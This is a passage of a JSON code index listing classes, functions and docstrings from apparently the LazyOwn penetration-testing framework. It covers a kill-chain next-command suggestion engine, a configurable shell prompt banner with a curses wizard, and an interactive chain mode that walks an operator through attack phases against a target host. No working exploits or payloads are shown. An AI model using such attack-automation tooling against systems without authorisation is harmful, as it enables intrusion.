appearing last.\n    target: Active rhost loaded from ``payload.json``.\n    os_hint: Detected target OS — ``\"linux\"``, ``\"windows\"``, or\n        ``\"unknown\"``.", "kind": "class", "line": 50, "name": "SuggestionContext", "signature": "class SuggestionContext"}, {"doc": "One next-command suggestion with its rationale.\n\nArgs:\n    command: Shell command executed when the operator accepts the\n        suggestion via ``do_next``.\n    reason: Human-readable explanation surfaced in the prompt and\n        event log.\n    score: Provider-specific confidence. Higher is better. The\n        :class:`CompositeProvider` uses it to arbitrate across\n        providers.\n    source: Short label identifying which provider produced the\n        suggestion (``graph``, ``killchain``, ``phase``, ...).", "kind": "class", "line": 71, "name": "Suggestion", "signature": "class Suggestion"}, {"doc": "Provider contract: examine context, return one suggestion or ``None``.", "kind": "class", "line": 92, "name": "SuggestionProvider", "signature": "class SuggestionProvider(Protocol)"}, {"doc": "Aggregator that returns the highest-scoring suggestion across providers.\n\nAdding a provider is a constructor argument; the engine itself\nnever changes, honouring the Open/Closed principle.", "kind": "class", "line": 98, "name": "CompositeProvider", "signature": "class CompositeProvider"}, {"doc": "Provider backed by the static kill-chain adjacency map.\n\nFalls back to the phase-priority table when no adjacency entry\nexists for the last command. Commands already present in\n:attr:`SuggestionContext.recent_commands` are skipped so the\nsuggestion is always forward-looking.", "kind": "class", "line": 134, "name": "KillChainProvider", "signature": "class KillChainProvider"}, {"doc": "Provider backed by the graphify knowledge-graph advisor.\n\nAccepts any object exposing ``suggest_next(recent_commands, limit)``\nreturning a list of dicts so this module stays decoupled from the\nconcrete :class:`cli.graph_advisor.GraphAdvisor` implementation.", "kind": "class", "line": 189, "name": "GraphProvider", "signature": "class GraphProvider"}, {"doc": "Stateful holder for the active ghost-text suggestion.\n\nThe engine is a thin coordinator: it never decides what to suggest\n(delegated to its :class:`SuggestionProvider`) and only owns the\ncurrent-suggestion state machine plus the rendering surface for the\nprompt.", "kind": "class", "line": 245, "name": "AutoSuggestEngine", "signature": "class AutoSuggestEngine"}, {"doc": "Return ``value`` shortened to ``max_len`` characters with an ellipsis.", "kind": "function", "line": 335, "name": "_truncate", "signature": "def _truncate(value, max_len)"}, {"doc": "Build the dim hint string surfaced after each command.\n\nThe format is deliberately compact and unambiguous about the\naccept key: ``  >> press '.' to run: gobuster (reason via graph)``.\nTruncation honours :data:`HINT_COMMAND_LIMIT` and\n:data:`HINT_REASON_LIMIT` so the line never exceeds one terminal\nrow at the typical 100-column width.\n\nArgs:\n    suggestion: Suggestion to render.\n    accept_key: Visible key the operator presses to accept.\n    command_limit: Maximum command-fragment length.\n    reason_limit: Maximum reason-fragment length.\n\nReturns:\n    Plain string (no ANSI). The shell wraps it in dim style at\n    render time so callers can pipe the value into logs without\n    carrying escape codes.", "kind": "function", "line": 342, "name": "format_hint_line", "signature": "def format_hint_line(suggestion)"}, {"doc": "Print one dim hint line for the engine's active suggestion.\n\nReturns ``True`` when something was printed, ``False`` otherwise.\nThe function is a no-op when the engine is disabled or has no\nactive suggestion so callers can register it unconditionally as a\ncmd2 postcmd hook.\n\nArgs:\n    engine: :class:`AutoSuggestEngine` whose current suggestion to\n        render.\n    console: Optional ``rich.console.Console`` instance. When\n        ``None`` a module-private console is used so tests can\n        inject a capturing console.\n    prefix: Leading marker, default matches ``cli.reactive_hints``.\n    accept_key: Visible accept-key hint passed through to\n        :func:`format_hint_line`.", "kind": "function", "line": 375, "name": "render_hint_line", "signature": "def render_hint_line(engine)"}, {"doc": "Return a lazily-initialised :class:`rich.console.Console`.\n\nImported lazily so unit tests can run without ``rich`` installed.\nThe instance is cached at module scope so subsequent calls reuse\nthe same console.", "kind": "function", "line": 411, "name": "_hint_console", "signature": "def _hint_console()"}, {"doc": "Wire the canonical provider chain used by the cmd2 shell.\n\nOrder is: graph provider (high signal) followed by the kill-chain\nfallback. Each provider is wrapped defensively so a misbehaving\nadvisor cannot break the prompt.\n\nArgs:\n    advisor: Optional graph advisor. When ``None`` or when\n        ``advisor.is_available()`` returns ``False`` the graph\n        provider is omitted.\n    chain: Static kill-chain adjacency map shared with\n        ``cli.reactive_hints``.\n    phase_priority: Phase-priority map shared with the same module.\n    enabled: Initial enable state for the engine.\n\nReturns:\n    An :class:`AutoSuggestEngine` ready to register with cmd2.", "kind": "function", "line": 427, "name": "build_default_engine", "signature": "def build_default_engine(advisor, chain, phase_priority)"}, {"kind": "method", "line": 95, "name": "suggest", "signature": "def suggest(self, context)"}, {"doc": "Store the provider chain.\n\nArgs:\n    providers: Sequence of objects implementing\n        :class:`SuggestionProvider`. Order is irrelevant for\n        correctness; the highest score wins.", "kind": "method", "line": 105, "name": "__init__", "signature": "def __init__(self, providers)"}, {"doc": "Return the best suggestion across the chain, or ``None``.\n\nA misbehaving provider that raises is silently skipped so a\nsingle broken adapter cannot break the prompt.", "kind": "method", "line": 115, "name": "suggest", "signature": "def suggest(self, context)"}, {"doc": "Configure the provider.\n\nArgs:\n    chain: ``command -> [next_command, ...]`` adjacency map.\n    phase_priority: ``phase -> [command, ...]`` fallback map.\n    base_score: Score assigned to adjacency matches. Phase\n        fallbacks receive ``base_score * PHASE_FALLBACK_FACTOR``.", "kind": "method", "line": 143, "name": "__init__", "signature": "def __init__(self, chain, phase_priority)"}, {"doc": "Return the first unseen adjacency, or phase fallback, or ``None``.", "kind": "method", "line": 162, "name": "suggest", "signature": "def suggest(self, context)"}, {"doc": "Configure the provider.\n\nArgs:\n    advisor: Object exposing ``suggest_next`` with the contract\n        described in the class docstring.\n    limit: Number of candidates to request from the advisor.\n        The top-ranked entry is returned to the engine.\n    base_score: Floor score for any non-empty graph result.\n    score_weight: Multiplier applied to the advisor-supplied\n        score when blending with ``base_score``.", "kind": "method", "line": 197, "name": "__init__", "signature": "def __init__(self, advisor)"}, {"doc": "Query the advisor and adapt the top result to a :class:`Suggestion`.", "kind": "method", "line": 221, "name": "suggest", "signature": "def suggest(self, context)"}, {"doc": "Store the provider and enabled flag.\n\nArgs:\n    provider: Object implementing :class:`SuggestionProvider`.\n        Typically a :class:`CompositeProvider`.\n    enabled: Whether the engine refreshes suggestions on each\n        postcmd hook. The shell flips this from\n        ``payload.json[\"enable_autosuggest\"]`` so the operator\n        can toggle without a restart.", "kind": "method", "line": 254, "name": "__init__", "signature": "def __init__(self, provider)"}, {"doc": "Whether the engine refreshes suggestions on each command.", "kind": "method", "line": 270, "name": "enabled", "signature": "def enabled(self)"}, {"doc": "Toggle the engine without losing the provider chain.\n\nDisabling clears the active suggestion so the prompt returns to\nits plain form on the next render.", "kind": "method", "line": 274, "name": "set_enabled", "signature": "def set_enabled(self, value)"}, {"doc": "Return the suggestion last computed, or ``None`` when cleared.", "kind": "method", "line": 284, "name": "current", "signature": "def current(self)"}, {"doc": "Drop the active suggestion (called after accept or abort).", "kind": "method", "line": 288, "name": "clear", "signature": "def clear(self)"}, {"doc": "Recompute the suggestion from the provider chain.\n\nCommands listed in :data:`SKIP_TRIGGER_COMMANDS` are ignored so\nrefreshing after ``help`` or ``next`` is meaningless or\nrecursive. When the engine is disabled the current suggestion\nis cleared and ``None`` is returned.", "kind": "method", "line": 292, "name": "refresh", "signature": "def refresh(self, context)"}, {"doc": "Return the active command string and clear the suggestion.", "kind": "method", "line": 309, "name": "accept", "signature": "def accept(self)"}, {"doc": "Return the ANSI-coloured ghost-text fragment for legacy callers.\n\nThe fragment is empty when no suggestion is active or when the\nengine is disabled. The rendered command is truncated to\n:data:`GHOST_TEXT_LIMIT` characters. This API is preserved for\ncallers that want to embed the suggestion inline; the cmd2\nshell uses :func:`render_hint_line` instead so the prompt\nitself stays clean.", "kind": "method", "line": 317, "name": "display_text", "signature": "def display_text(self)"}]}, {"doc": "Configurable Neon Box banner for the LazyOwn interactive shell.  The module exposes a single, self-contained banner subsystem with three extension axes the operator can tune through a curses wizard or directly inside ``payload.json``:  1. **Segments** — which pieces of information appear in the prompt (``user_host``, ``iface``, ``rhost``, ``domain``, ``cwd``, ``git`` …). 2. **Colors** — a per-segment named ANSI color picked from :class:`ColorRegistry`. 3. **Glyphs** — the box-drawing characters, segment markers, arrows and prompt characters drawn between values, picked from :class:`GlyphRegistry`.  The wizard mirrors Powerlevel10k's flow: three tabs (Segments / Colors / Glyphs) navigable with ``Tab`` / ``Shift+Tab``, arrow keys plus ``Space`` or ``←/→`` to toggle/cycle, a live preview anchored beneath the body, and ``Enter`` to commit. ``payload.json`` carries the result under the ``banner`` block so it survives shell restarts.  Design (SOLID):  - ``BannerConfig`` centralises every magic constant (keys, key codes, palette pair ids, layout, payload field names, cache TTLs). - ``ColorRegistry`` and ``GlyphRegistry`` are Open/Closed extension points: adding a new color name or glyph slot only requires extending the preset map. - ``SegmentSpec`` describes a segment; ``SegmentRenderer`` is the only thing that knows how to format a value (Single Responsibility). - ``SegmentRegistry`` holds the canonical segment set; ``BannerSettings``", "id": "cli/banner_config.py", "kind": "module", "label": "banner_config.py", "language": "py", "sha256": "1dcd15d669e9cfd9", "symbol_count": 120, "symbols": [{"doc": "Centralised constants for the banner renderer and configurator.", "kind": "class", "line": 59, "name": "BannerConfig", "signature": "class BannerConfig"}, {"doc": "Named ANSI colors operators can assign to any segment.\n\nNames are stable identifiers; the underlying escape codes are an\nimplementation detail. Cycling through names produces a deterministic\nordering so the wizard never surprises the operator.", "kind": "class", "line": 143, "name": "ColorRegistry", "signature": "class ColorRegistry"}, {"doc": "Glyph slots used by the Neon Box renderer with cyclable choices.", "kind": "class", "line": 191, "name": "GlyphRegistry", "signature": "class GlyphRegistry"}, {"doc": "Metadata describing a prompt segment available for toggling.", "kind": "class", "line": 237, "name": "SegmentSpec", "signature": "class SegmentSpec"}, {"doc": "ANSI escape codes for the box chrome itself.\n\nThe chrome (corners, fillers, brackets, accents) keeps a coherent\nlook; only the per-segment *value* color is operator-tunable through\n:class:`ColorRegistry`.", "kind": "class", "line": 250, "name": "ColorPalette", "signature": "class ColorPalette"}, {"doc": "Pre-resolved data delivered to every :class:`SegmentRenderer`.", "kind": "class", "line": 268, "name": "RenderContext", "signature": "class RenderContext"}, {"doc": "Render one bracketed top-row segment with the chosen value color.", "kind": "function", "line": 293, "name": "_bracketed", "signature": "def _bracketed(label, value, bullet, value_color, ctx, glyphs)"}, {"doc": "Render one middle-row segment with the chosen value color.", "kind": "function", "line": 307, "name": "_middle", "signature": "def _middle(label, value, value_color, ctx, glyphs)"}, {"doc": "Contract for a single prompt segment.", "kind": "class", "line": 314, "name": "SegmentRenderer", "signature": "class SegmentRenderer(ABC)"}, {"kind": "class", "line": 325, "name": "UserHostSegment", "signature": "class UserHostSegment(SegmentRenderer)"}, {"kind": "class", "line": 340, "name": "IfaceSegment", "signature": "class IfaceSegment(SegmentRenderer)"}, {"kind": "class", "line": 359, "name": "LhostSegment", "signature": "class LhostSegment(SegmentRenderer)"}, {"kind": "class", "line": 376, "name": "RhostSegment", "signature": "class RhostSegment(SegmentRenderer)"}, {"kind": "class", "line": 393, "name": "DomainSegment", "signature": "class DomainSegment(SegmentRenderer)"}, {"kind": "class", "line": 410, "name": "PublicIpSegment", "signature": "class PublicIpSegment(SegmentRenderer)"}, {"kind": "class", "line": 427, "name": "CwdSegment", "signature": "class CwdSegment(SegmentRenderer)"}, {"kind": "class", "line": 443, "name": "GitSegment", "signature": "class GitSegment(SegmentRenderer)"}, {"kind": "class", "line": 465, "name": "VenvSegment", "signature": "class VenvSegment(SegmentRenderer)"}, {"kind": "class", "line": 482, "name": "TimeSegment", "signature": "class TimeSegment(SegmentRenderer)"}, {"kind": "class", "line": 497, "name": "KernelSegment", "signature": "class KernelSegment(SegmentRenderer)"}, {"kind": "class", "line": 514, "name": "VersionSegment", "signature": "class VersionSegment(SegmentRenderer)"}, {"kind": "class", "line": 531, "name": "KarmaSegment", "signature": "class KarmaSegment(SegmentRenderer)"}, {"kind": "class", "line": 561, "name": "BatteryLoadSegment", "signature": "class BatteryLoadSegment(SegmentRenderer)"}, {"doc": "Open/Closed registry of available prompt segments.", "kind": "class", "line": 578, "name": "SegmentRegistry", "signature": "class SegmentRegistry"}, {"doc": "Return the registry populated with the canonical segment set.", "kind": "function", "line": 604, "name": "build_default_registry", "signature": "def build_default_registry()"}, {"doc": "Mutable banner state: enabled segments + per-segment color + glyph slots.", "kind": "class", "line": 628, "name": "BannerSettings", "signature": "class BannerSettings"}, {"doc": "Resolve a :class:`RenderContext` once per prompt render, with caches.", "kind": "class", "line": 734, "name": "ContextResolver", "signature": "class ContextResolver"}, {"doc": "Return ``{interface: ip}`` for every globally-scoped IPv4 link.", "kind": "function", "line": 873, "name": "_read_network_info", "signature": "def _read_network_info()"}, {"kind": "function", "line": 892, "name": "_select_iface", "signature": "def _select_iface(network, preferred)"}, {"kind": "function", "line": 902, "name": "_git_branch", "signature": "def _git_branch()"}, {"kind": "function", "line": 914, "name": "_git_dirty", "signature": "def _git_dirty()"}, {"kind": "function", "line": 923, "name": "_venv_name", "signature": "def _venv_name()"}, {"kind": "function", "line": 929, "name": "_battery_or_load", "signature": "def _battery_or_load()"}, {"doc": "Box-chrome palette used around segment values.", "kind": "function", "line": 948, "name": "default_palette", "signature": "def default_palette()"}, {"doc": "Pure renderer of the three-line Neon Box prompt.", "kind": "class", "line": 961, "name": "BannerRenderer", "signature": "class BannerRenderer"}, {"doc": "Identifiers for the three wizard tabs.", "kind": "class", "line": 1029, "name": "_WizardTab", "signature": "class _WizardTab"}, {"doc": "Curses-driven p10k-style wizard editing segments, colors and glyphs.", "kind": "class", "line": 1037, "name": "BannerConfigurator", "signature": "class BannerConfigurator"}, {"doc": "Wrap ANSI escape sequences with readline zero-width markers.\n\nReadline measures cursor position by counting visible characters, so\nevery non-printing ANSI escape must sit between the SOH/STX markers\nfrom :class:`BannerConfig`. Newlines are printable line breaks and\nare always left bare: wrapping them corrupts multiline redisplay and\nleaks visible ``^A``/``^B`` glyphs on terminals whose input layer\ndoes not interpret readline markers.\n\nArgs:\n    prompt: Raw ANSI prompt produced by :class:`BannerRenderer`.\n    config: Centralised constants. ``None`` uses defaults.\n\nReturns:\n    Prompt with ANSI escapes wrapped and newlines untouched.", "kind": "function", "line": 1353, "name": "_readline_safe", "signature": "def _readline_safe(prompt, config)"}, {"doc": "Remove readline zero-width markers from prompt text.\n\nArgs:\n    text: Prompt that may contain SOH/STX markers.\n    config: Centralised constants. ``None`` uses defaults.\n\nReturns:\n    Text without readline markers. ANSI escapes are preserved.", "kind": "function", "line": 1382, "name": "strip_readline_markers", "signature": "def strip_readline_markers(text, config)"}, {"doc": "Render the Neon Box prompt from a payload dictionary.\n\nReads the operator's segment, color and glyph selection from\n``payload[banner]`` and walks the canonical registry. Segments whose\nunderlying value cannot be resolved (no git, no venv, no network) drop\nsilently so the prompt never shows empty brackets.\n\nThe shell runs on cmd2 with prompt_toolkit, which parses ANSI\nnatively and renders SOH/STX bytes as visible ``^A``/``^B`` glyphs.\nMarker fencing therefore defaults to off. Enable it only for\ngenuine GNU-readline consumers, never for the interactive shell.\n\nArgs:\n    payload: Loaded ``payload.json`` mapping. ``None`` uses defaults.\n    config: Centralised constants. ``None`` uses defaults.\n    readline_safe: When ``True`` wrap ANSI escapes with readline\n        zero-width markers for GNU-readline ``input()`` consumption.\n        When ``False`` return the raw ANSI prompt for prompt_toolkit\n        and every direct-display surface.\n\nReturns:\n    Three-line Neon Box prompt string.", "kind": "function", "line": 1396, "name": "render_prompt", "signature": "def render_prompt(payload, config, readline_safe)"}, {"doc": "Open the multi-tab curses wizard and return updated settings on save.\n\nReturns ``None`` when the operator cancels or the environment cannot\nhost a curses session. Callers persist the returned\n:class:`BannerSettings` through ``BannerSettings.to_payload_block``.", "kind": "function", "line": 1436, "name": "configure_banner_interactive", "signature": "def configure_banner_interactive(payload, config)"}, {"doc": "Return a single-line summary listing enabled segment ids.", "kind": "function", "line": 1456, "name": "banner_summary", "signature": "def banner_summary(settings, registry)"}, {"kind": "method", "line": 170, "name": "names", "signature": "def names(self)"}, {"kind": "method", "line": 173, "name": "has", "signature": "def has(self, name)"}, {"kind": "method", "line": 176, "name": "resolve", "signature": "def resolve(self, name)"}, {"kind": "method", "line": 179, "name": "cycle", "signature": "def cycle(self, current, direction)"}, {"kind": "method", "line": 187, "name": "default_name", "signature": "def default_name(self)"}, {"kind": "method", "line": 212, "name": "slots", "signature": "def slots(self)"}, {"kind": "method", "line": 215, "name": "choices", "signature": "def choices(self, slot)"}, {"kind": "method", "line": 218, "name": "has", "signature": "def has(self, slot)"}, {"kind": "method", "line": 221, "name": "default", "signature": "def default(self, slot)"}, {"kind": "method", "line": 225, "name": "cycle", "signature": "def cycle(self, slot, current, direction)"}, {"kind": "method", "line": 319, "name": "spec", "signature": "def spec(self)"}, {"kind": "method", "line": 322, "name": "render", "signature": "def render(self, ctx, cfg, color, glyphs)"}, {"kind": "method", "line": 336, "name": "render", "signature": "def render(self, ctx, cfg, color, glyphs)"}, {"kind": "method", "line": 351, "name": "render", "signature": "def render(self, ctx, cfg, color, glyphs)"}, {"kind": "method", "line": 370, "name": "render", "signature": "def render(self, ctx, cfg, color, glyphs)"}, {"kind": "method", "line": 387, "name": "render", "signature": "def render(self, ctx, cfg, color, glyphs)"}, {"kind": "method", "line": 404, "name": "render", "signature": "def render(self, ctx, cfg, color, glyphs)"}, {"kind": "method", "line": 421, "name": "render", "signature": "def render(self, ctx, cfg, color, glyphs)"}, {"kind": "method", "line": 438, "name": "render", "signature": "def render(self, ctx, cfg, color, glyphs)"}, {"kind": "method", "line": 454, "name": "render", "signature": "def render(self, ctx, cfg, color, glyphs)"}, {"kind": "method", "line": 476, "name": "render", "signature": "def render(self, ctx, cfg, color, glyphs)"}, {"kind": "method", "line": 493, "name": "render", "signature": "def render(self, ctx, cfg, color, glyphs)"}, {"kind": "method", "line": 508, "name": "render", "signature": "def render(self, ctx, cfg, color, glyphs)"}, {"kind": "method", "line": 525, "name": "render", "signature": "def render(self, ctx, cfg, color, glyphs)"}, {"kind": "method", "line": 542, "name": "render", "signature": "def render(self, ctx, cfg, color, glyphs)"}, {"kind": "method", "line": 572, "name": "render", "signature": "def render(self, ctx, cfg, color, glyphs)"}, {"kind": "method", "line": 581, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 584, "name": "register", "signature": "def register(self, segment)"}, {"kind": "method", "line": 587, "name": "get", "signature": "def get(self, segment_id)"}, {"kind": "method", "line": 590, "name": "all", "signature": "def all(self)"}, {"kind": "method", "line": 600, "name": "by_group", "signature": "def by_group(self, group)"}, {"kind": "method", "line": 636, "name": "defaults", "signature": "def defaults(cls, registry, color_registry, glyph_registry)"}, {"kind": "method", "line": 651, "name": "from_payload", "signature": "def from_payload(cls, registry, payload, key, color_registry, glyph_registry)"}, {"kind": "method", "line": 685, "name": "is_enabled", "signature": "def is_enabled(self, segment_id)"}, {"kind": "method", "line": 688, "name": "toggle", "signature": "def toggle(self, segment_id)"}, {"kind": "method", "line": 694, "name": "enable_all", "signature": "def enable_all(self, registry)"}, {"kind": "method", "line": 697, "name": "disable_all", "signature": "def disable_all(self)"}, {"kind": "method", "line": 700, "name": "reset_segments", "signature": "def reset_segments(self, registry)"}, {"kind": "method", "line": 703, "name": "reset_colors", "signature": "def reset_colors(self, registry)"}, {"kind": "method", "line": 706, "name": "reset_color_for", "signature": "def reset_color_for(self, segment_id, registry)"}, {"kind": "method", "line": 711, "name": "reset_glyphs", "signature": "def reset_glyphs(self, glyph_registry)"}, {"kind": "method", "line": 714, "name": "reset_glyph_for", "signature": "def reset_glyph_for(self, slot, glyph_registry)"}, {"kind": "method", "line": 718, "name": "cycle_color", "signature": "def cycle_color(self, segment_id, color_registry, direction)"}, {"kind": "method", "line": 722, "name": "cycle_glyph", "signature": "def cycle_glyph(self, slot, glyph_registry, direction)"}, {"kind": "method", "line": 726, "name": "to_payload_block", "signature": "def to_payload_block(self)"}, {"kind": "method", "line": 741, "name": "__init__", "signature": "def __init__(self, cfg, palette)"}, {"kind": "method", "line": 745, "name": "resolve", "signature": "def resolve(self, payload, network)"}, {"kind": "method", "line": 777, "name": "_public_ip", "signature": "def _public_ip(self, payload)"}, {"kind": "method", "line": 796, "name": "_kernel", "signature": "def _kernel(self)"}, {"kind": "method", "line": 808, "name": "_version", "signature": "def _version(self)"}, {"doc": "Read ELO and karma — user's personal ELO if logged in, else engagement ELO.\n\nReturns:\n    Tuple of (elo, karma_name).", "kind": "method", "line": 826, "name": "_engagement_stats", "signature": "def _engagement_stats()"}, {"doc": "Read the current operator name from the CLI session.\n\nReturns:\n    Operator username, or empty string if not logged in.", "kind": "method", "line": 859, "name": "_operator_name", "signature": "def _operator_name()"}, {"kind": "method", "line": 964, "name": "__init__", "signature": "def __init__(self, config, registry, color_registry, glyph_registry)"}, {"kind": "method", "line": 976, "name": "render", "signature": "def render(self, settings, ctx)"}, {"kind": "method", "line": 985, "name": "_merged_glyphs", "signature": "def _merged_glyphs(self, settings)"}, {"kind": "method", "line": 992, "name": "_render_group", "signature": "def _render_group(self, settings, ctx, group, glyphs)"}, {"kind": "method", "line": 1006, "name": "_build_top", "signature": "def _build_top(self, pieces, palette, glyphs)"}, {"kind": "method", "line": 1013, "name": "_build_middle", "signature": "def _build_middle(self, pieces, palette, glyphs)"}, {"kind": "method", "line": 1019, "name": "_build_bottom", "signature": "def _build_bottom(self, palette, glyphs)"}, {"kind": "method", "line": 1047, "name": "__init__", "signature": "def __init__(self, config, registry, color_registry, glyph_registry, renderer, ctx, initial)"}, {"kind": "method", "line": 1071, "name": "run", "signature": "def run(self)"}, {"kind": "method", "line": 1082, "name": "_tty_available", "signature": "def _tty_available()"}, {"kind": "method", "line": 1085, "name": "_loop", "signature": "def _loop(self, stdscr)"}, {"kind": "method", "line": 1120, "name": "_cycle_tab", "signature": "def _cycle_tab(self, direction)"}, {"kind": "method", "line": 1124, "name": "_rows_for", "signature": "def _rows_for(self, tab)"}, {"kind": "method", "line": 1133, "name": "_dispatch_action", "signature": "def _dispatch_action(self, key, rows, cursor)"}, {"kind": "method", "line": 1163, "name": "_init_colors", "signature": "def _init_colors(self)"}, {"kind": "method", "line": 1190, "name": "_render", "signature": "def _render(self, stdscr, rows, cursor)"}, {"kind": "method", "line": 1215, "name": "_draw_frame", "signature": "def _draw_frame(self, stdscr, top, left, height, width)"}, {"kind": "method", "line": 1229, "name": "_draw_header", "signature": "def _draw_header(self, stdscr, top, left, width)"}, {"kind": "method", "line": 1248, "name": "_draw_tabs", "signature": "def _draw_tabs(self, stdscr, row_y, left, width)"}, {"kind": "method", "line": 1265, "name": "_draw_segments", "signature": "def _draw_segments(self, stdscr, top, left, width, rows, cursor)"}, {"kind": "method", "line": 1282, "name": "_draw_colors", "signature": "def _draw_colors(self, stdscr, top, left, width, rows, cursor)"}, {"kind": "method", "line": 1295, "name": "_draw_glyphs", "signature": "def _draw_glyphs(self, stdscr, top, left, width, rows, cursor)"}, {"kind": "method", "line": 1309, "name": "_addrow", "signature": "def _addrow(self, stdscr, row_y, left, width, text, attr)"}, {"kind": "method", "line": 1318, "name": "_draw_preview", "signature": "def _draw_preview(self, stdscr, top, left, width, lines)"}, {"kind": "method", "line": 1330, "name": "_draw_footer", "signature": "def _draw_footer(self, stdscr, row_y, left, width)"}, {"kind": "method", "line": 1344, "name": "_color", "signature": "def _color(self, pair)"}]}, {"doc": "Interactive kill-chain chaining coordinator.  This module glues the framework's existing \"what next\" brains (:class:`cli.command_chain.CommandChain`, which fuses the static kill-chain tables with nmap-discovered services, addon triggers and the engagement phase) to an interactive prompt loop so the operator can walk every kill-chain phase without ever leaving the shell flow.  After a command executes the operator is shown the world-model-driven next steps and may:  * press **Enter** to run the top suggestion, * type ``1..N`` to run that ranked alternative, * type **any command** to override the suggestion (\"no, run nmap instead\") — that command executes and the chain continues from it, * type ``skip`` to step out of the chain while keeping chain mode on, * press **ESC**, **Ctrl+C** or type ``exit``/``quit``/``off`` to leave chain mode entirely (persisted, so it stays off until the operator runs ``chainmode on`` again).  Design (SOLID):  * ``ChainModeConfig`` centralises every magic value. * ``ChainModeStore`` owns atomic persistence to ``sessions/chain_mode.json`` (same pattern as ``daemon_control.json``). * ``ChainPromptEngine`` is pure coordination: it receives suggestions from an injected ``resolver`` callable, renders via an injected ``print_fn``, reads operator input (TTY-aware, with ESC/Ctrl+C support) and returns a :class:`ChainOutcome` — it never executes commands itself and has zero coupling to ``cmd2`` or ``lazyown.py``.", "id": "cli/chain_mode.py", "kind": "module", "label": "chain_mode.py", "language": "py", "sha256": "5814f435276ffcdd", "symbol_count": 23, "symbols": [{"doc": "Internal signal: the operator pressed ESC at the chain prompt.", "kind": "class", "line": 73, "name": "_ChainEscExit", "signature": "class _ChainEscExit(Exception)"}, {"doc": "Read one line in raw TTY mode, honouring ESC, Ctrl+C and backspace.\n\nRaw mode is required because canonical terminal input does not\ndeliver a lone ESC byte until Enter is pressed. The original termios\nsettings are restored in ``finally`` so the cmd2 readline prompt is\nunaffected.\n\nArgs:\n    prompt: Text printed before reading.\n\nReturns:\n    The typed line without the trailing newline.\n\nRaises:\n    _ChainEscExit: The operator pressed ESC.\n    KeyboardInterrupt: The operator pressed Ctrl+C.\n    EOFError: End of input with an empty line.", "kind": "function", "line": 77, "name": "_read_line_unix", "signature": "def _read_line_unix(prompt)"}, {"doc": "Read one line on Windows, honouring ESC, Ctrl+C and backspace.\n\nArgs:\n    prompt: Text printed before reading.\n\nReturns:\n    The typed line without the trailing newline.\n\nRaises:\n    _ChainEscExit: The operator pressed ESC.\n    KeyboardInterrupt: The operator pressed Ctrl+C.\n    EOFError: End of input with an empty line.", "kind": "function", "line": 136, "name": "_read_line_windows", "signature": "def _read_line_windows(prompt)"}, {"doc": "A single next-step proposal, normalised from any resolver output.", "kind": "class", "line": 183, "name": "ChainSuggestion", "signature": "class ChainSuggestion"}, {"doc": "Result of one chain prompt round.\n\nAttributes:\n    state: One of ``OUTCOME_RUN`` (execute ``command``), ``OUTCOME_SKIP``,\n        ``OUTCOME_OFF`` (chain mode disabled) or ``OUTCOME_NONE``\n        (no interaction happened).\n    command: The command line to execute when state is ``run``. This is\n        either the top suggestion, a numbered alternative, or the\n        operator's own override.\n    reason: Human-readable explanation for the outcome.", "kind": "class", "line": 212, "name": "ChainOutcome", "signature": "class ChainOutcome"}, {"doc": "Centralised configuration for the chain prompt engine.", "kind": "class", "line": 231, "name": "ChainModeConfig", "signature": "class ChainModeConfig"}, {"doc": "Atomic persistence of the chain-mode toggle in the sessions dir.\n\nPersistence is best-effort by design: a read-only sessions directory\nmust never break the interactive chain flow. Failures are logged so\noperators and developers can see them instead of failing silently.", "kind": "class", "line": 242, "name": "ChainModeStore", "signature": "class ChainModeStore"}, {"doc": "Coordinate one interactive chain prompt round per executed command.", "kind": "class", "line": 298, "name": "ChainPromptEngine", "signature": "class ChainPromptEngine"}, {"doc": "Build a suggestion from a duck-typed resolver step object.\n\nArgs:\n    step: Any object exposing ``name``, ``source`` and ``reason``\n        attributes (e.g. :class:`cli.command_chain.NextStep`) or a\n        plain string.\n\nReturns:\n    A normalised :class:`ChainSuggestion`.", "kind": "method", "line": 191, "name": "from_step", "signature": "def from_step(cls, step)"}, {"doc": "Store the sessions directory that owns the state file.\n\nArgs:\n    sessions_dir: Directory under which ``chain_mode.json`` lives.", "kind": "method", "line": 250, "name": "__init__", "signature": "def __init__(self, sessions_dir)"}, {"doc": "Return the persisted enabled flag, or ``None`` when unset.\n\nReturns:\n    The stored boolean, or ``None`` when the file is missing or\n    malformed.", "kind": "method", "line": 258, "name": "load", "signature": "def load(self)"}, {"doc": "Persist the enabled flag atomically.\n\nArgs:\n    enabled: Whether chain mode is currently active.", "kind": "method", "line": 275, "name": "save", "signature": "def save(self, enabled)"}, {"doc": "Wire the engine with its config, resolver and I/O functions.\n\nArgs:\n    config: Centralised configuration. Built from defaults when\n        omitted.\n    resolver: Callable ``(cmd, phase) -> sequence`` returning\n        duck-typed steps with ``name``/``source``/``reason``\n        attributes. ``None`` yields no suggestions.\n    input_fn: Function used to read one line of operator input.\n    print_fn: Function used to render the menu lines.\n    interactive: When ``False`` the engine never prompts (used by\n        headless/daemon shells so the flow cannot block).", "kind": "method", "line": 301, "name": "__init__", "signature": "def __init__(self, config, resolver)"}, {"doc": "Whether the chain prompt loop is currently active.", "kind": "method", "line": 335, "name": "enabled", "signature": "def enabled(self)"}, {"doc": "Number of commands executed through the chain this activation.", "kind": "method", "line": 340, "name": "steps_run", "signature": "def steps_run(self)"}, {"doc": "Toggle chain mode and optionally persist the choice.\n\nArgs:\n    value: New enabled state.\n    persist: When ``True`` write through to the state file.", "kind": "method", "line": 344, "name": "set_enabled", "signature": "def set_enabled(self, value, persist)"}, {"doc": "Run one chain prompt round for the command that just executed.\n\nArgs:\n    last_cmd: First token (or full line) of the command that just\n        ran, used as the resolver seed.\n    phase: Current engagement phase (``recon``, ``enum``, ...)\n        forwarded to the resolver.\n\nReturns:\n    A :class:`ChainOutcome` describing what the caller should do:\n    execute ``command``, skip, or disable chain mode. Returns\n    ``OUTCOME_NONE`` without touching stdin when the engine is\n    disabled, non-interactive, the verb is in ``skip_verbs`` or\n    the auto-pause limit was reached.", "kind": "method", "line": 358, "name": "step", "signature": "def step(self, last_cmd, phase)"}, {"doc": "Read and interpret operator input, re-prompting on invalid picks.\n\nThe loop keeps the operator inside the chain flow: an out-of-range\nnumeric choice prints a hint and asks again instead of silently\nskipping. ESC, Ctrl+C, EOF, and every exit word leave chain mode.\n\nArgs:\n    suggestions: The ranked suggestions currently on offer.\n\nReturns:\n    A :class:`ChainOutcome` describing the operator's decision.", "kind": "method", "line": 389, "name": "_prompt_loop", "signature": "def _prompt_loop(self, suggestions)"}, {"doc": "Read one chain-prompt line with ESC/Ctrl+C support on real TTYs.\n\nUses the 